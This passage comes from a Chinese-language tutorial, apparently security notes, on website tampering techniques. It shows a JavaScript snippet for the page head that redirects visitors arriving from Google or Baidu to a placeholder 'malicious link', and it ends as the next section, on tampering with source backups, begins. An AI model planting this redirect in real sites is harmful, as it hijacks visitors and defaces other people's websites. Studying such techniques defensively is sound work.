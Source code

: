 ![img4](img/Tamper/img4.png)

上面两种效果一样。

## 4. 搜索引擎劫持

`<head>`添加

```html
    <script>
        var s = document.referrer;
        if (s.indexOf("google") != -1 || s.indexOf("baidu") != -1) {
            window.location.href = "恶意链接";
        }
    </script>
```

当对应的搜索引擎访问时，就会跳转到恶意链接。

## 5. 篡改网站源码备份文件
